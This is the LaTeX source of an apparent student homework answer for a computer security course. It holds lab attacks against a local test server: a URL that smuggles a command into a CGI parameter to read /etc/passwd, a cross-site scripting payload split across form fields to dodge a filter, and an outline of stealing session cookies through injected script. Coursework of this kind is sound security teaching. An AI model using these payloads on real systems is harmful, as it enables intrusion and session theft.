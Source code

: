 \documentclass[letterpaper]{article}
\title{CIS 551, Computing and Network Security, Spring 2012}
\author{Chris Imbriano and Dustin Zelle}
\date{April 24, 2011}
\begin{document}
\maketitle

\begin{enumerate}
\item[A.] http://192.168.91.128/cgi-bin/web-ls.cgi?dir=html\%20\%3E\%20\%2Fdev\%2Fnull\%3Bcat\%20\%2Fetc\%2Fpasswd

\item[B.]
Name: $<$script type="text/javascript"$>$/*\\
Street 1: */alert/*\\
Street 2: */("Javascript successfully injected!");/*\\
City: */$<$/script $>$\\
State:\\
Zip Code:

\begin{enumerate}
\item "<script>" and "</script>" would be removed if found exactly like this.  Replacing them with Name and City fields avoided detection.
\item there was a 45 character limit so the alert command needed to be separarted on two lines
\item Each field had "</br>" inserted so those tags needed to be comments in the javascript
\end{enumerate}


\item[C.]

\begin{enumerate}
\item Same problem searching for literally "<script>" or "</script>"
\item 
\end{enumerate}

1. User logs into service and forgets to log out
2. User visits service-attack.html
3. Service-attack.html redirects to service with the injected javascript
4. The injected javascript collects the cookie and posts it to a form in steal.cgi
5. steal.cgi records the cookie information for later use




\end{enumerate}
\end{document}
